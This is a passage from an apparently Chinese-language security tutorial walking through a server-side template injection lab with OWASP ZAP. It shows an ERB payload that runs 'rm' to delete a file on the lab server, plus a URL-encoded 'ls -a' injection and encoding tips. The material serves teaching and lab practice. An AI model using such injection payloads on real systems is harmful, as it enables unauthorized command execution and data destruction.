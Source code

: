 图 7.16 – pwd 命令结果

1.  现在我们可以看到服务器正在执行命令以打印当前工作目录并列出所有文件，让我们构造一个有效载荷，以便从 Carlos 的目录中删除一个文件：

    ```
    <%= system("rm /home/carlos/morale.txt") %>
    ```

成功执行实验将显示一个祝贺页面：

![图 7.17 – 实验已解决](img/Figure_7.17_B18829.jpg)

图 7.17 – 实验已解决

重要说明

如果命令导致错误消息或没有执行，请将有效载荷转换为 URL 编码，例如，**%3C%25%3D%20system%28%22ls%20-a%22%29%20%25%3E**。

使用 OWASP ZAP **编码/解码/哈希**工具或快捷键*Ctrl + E*，如*图 7.18*所示：

![图 7.18 – 编码/解码/哈希工具](img/Figure_7.18_B18829.jpg)
